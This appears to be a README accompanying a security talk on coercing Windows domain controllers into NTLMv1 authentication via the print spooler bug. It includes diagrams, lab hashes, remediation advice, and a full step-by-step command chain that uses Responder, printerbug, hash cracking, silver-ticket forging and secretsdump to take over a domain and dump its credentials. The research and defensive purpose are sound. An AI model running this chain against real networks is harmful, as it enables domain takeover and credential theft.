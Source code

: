 # show bio

`cat evilmog_bio`
    ![EvilMog_bio](evilmog_bio.png)

# Print Spooler challenge/response
```
┌────────┐     Printer Request     ┌────────┐
│        │────────────────────────▶│        │
│        │                         │        │
│        │     Printer Notify      │        │
│        │◀────────────────────────│        │
│Attacker│                         │   DC   │
│        │     NTLM Challenge      │        │
│        │────────────────────────▶│        │
│        │                         │        │
│        │     NTLMv1 Response     │        │
│        │◀────────────────────────│        │
└────────┘                         └────────┘
```

[ntlmv1.txt](ntlmv1.txt)

# LM Compatibility level registry setting
```
cat registry
cat settings
```

* [registry.png](registry.png) - registry settings
* [settings.png](settings.png) - vulnerabile settings
* [settings2.png](settings2.png) - more settings (less vulnerable, use level 5)

Fixed Settings in lm compat level 5

# NTLMv1 response
```
┌────────────────────────────────────────────────┐
│NTLMv1 Response                                 │
│DC1$::MOG:949919F6A782CAF80000000000000000000000│
│0000000000:B70755AC208FDA09326BA2EF4D22EEB08868F│
│E9C1DB5E096:979ba9703d729b97                    │
└────────────────────────────────────────────────┘
```
[v1_response.txt](v1_response.txt)

# LM Response
```
┌────────────────────────────────────────────────┐
│LM RESP:                                        │
│949919F6A782CAF800000000000000000000000000000000│
└────────────────────────────────────────────────┘
```
[lm_resp.txt](lm_resp.txt)

# NT Response
```
┌────────────────────────────────────────────────┐
│NT RESP:                                        │
│B70755AC208FDA09326BA2EF4D22EEB08868FE9C1DB5E096│
└────────────────────────────────────────────────┘
```
[nt_resp.txt](lm_resp.txt)

# client challenge
```
┌────────────────────────────────────────────────┐
│Client Challenge:                               │
│979ba9703d729b97                                │
└────────────────────────────────────────────────┘
```
[client_challenge.txt](client_challenge.txt)

# SSP
```
┌──────────────┬─────────────────────────────────┐
│  NTLMv1 SSP  │                                 │
├──────────────┘                                 │
├──────────────────────────┐ ┌───────────────────┤
│LM RESP:                  │ │Client Challenge:  │
│949919F6A782CAF8          │ │979ba9703d729b97   │
├──────────────────────────┘ └───────────────────┤
├────────────────────────────────────────────────┤
│Combined Challenge:                             │
│949919F6A782CAF8 979ba9703d729b97               │
├────────────────────────────────────────────────┤
├────────────────────────────────────────────────┤
│New Challenge:                                  │
│MD5(Combined Challenge)[0:16]                   │
└────────────────────────────────────────────────┘
```
[ssp.txt](ssp.txt)

# credits
```
┌────────────────────────────────────────────┐
│                                            │
│                 KRBRELAYX                  │
│   Dirk-jan Mollema https://dirkjanm.io/    │
│   https://github.com/dirkjanm/krbrelayx    │
│                                            │
│     MS-RPRN Discovery: Lee Christensen     │
│                 (@_tifkin)                 │
│                                            │
└────────────────────────────────────────────┘
```
[credits.txt](credits.txt)

# NTLMv1 Multi Tool
```
┌────────────────────────────────────────────┐
│                                            │
│                                            │
│                                            │
│             NTLMv1 Multi Tool              │
│  https://github.com/evilmog/ntlmv1-multi   │
│                                            │
│                                            │
│                                            │
└────────────────────────────────────────────┘
```
[multi](multi) - NTLMv1 Multi Tool

# remediation
set lm compatibility level to 5

# ad security checklist
`cat checklist.txt`
[checklist.txt](checklist.txt) - List of things you can do to harden active directory

# steps to recreate
All hashes listed here are from a test system, perform on systems you are legally authorized to test agains
```
1) lookup sid
cd ~/impacket/examples
python3 lookupsid.py Mog/EvilMog@mog.local

2) export sid to variable
export SID="S-1-5-21-1200878168-886626559-2939620051"

3) start responder with
./responder -I eth0 -wrfFP --lm
[can also run without --lm and use hashcat]

4) second window kick off printer bug
cd ~/krbrelayx
python3 printerbug.py MOG/evilmog@dc1.mog.local 192.168.1.128

5) run ntlmv1 multi tool
cd ~/git/ntlmv1-multi
python3 ./ntlmv1.py --ntlm "SERVER1$::MOG:9DE7F41D81C1207400000000000000000000000000000000:DE766A98B60D1C911DCFFFDBB3E521314B2CE34EAB63CC7B:1122334455667788"
python3 ./ntlmv1.py --ntlm "SERVER1$::MOG:FD434CC89967CB4AE99313AC9A0C3AA252A8E011735A15EE:FD434CC89967CB4AE99313AC9A0C3AA252A8E011735A15EE:1122334455667788"

6) crack with crack.sh or hashcat

6a) save results
export NTHASH="c0faa2e8c64eb55cd657db3dfb3dd3c7" # server1
export NTHASH="562090366a39267f07d15f602a12bbd0" # DC1

7) create silver ticket
ticketer.py -nthash $NTHASH -domain-sid $SID -domain mog.local -spn 'HOST/DC1.mog.local' Administrator

8) export
export KRB5CCNAME=/root/impacket/examples/Administrator.ccache

9) secretsdump
python3 secretsdump.py Administrator@dc1.mog.local -k -no-pass
python3 secretsdump.py Administrator@server1.mog.local -k -no-pass
```
[steps.txt](steps.txt)
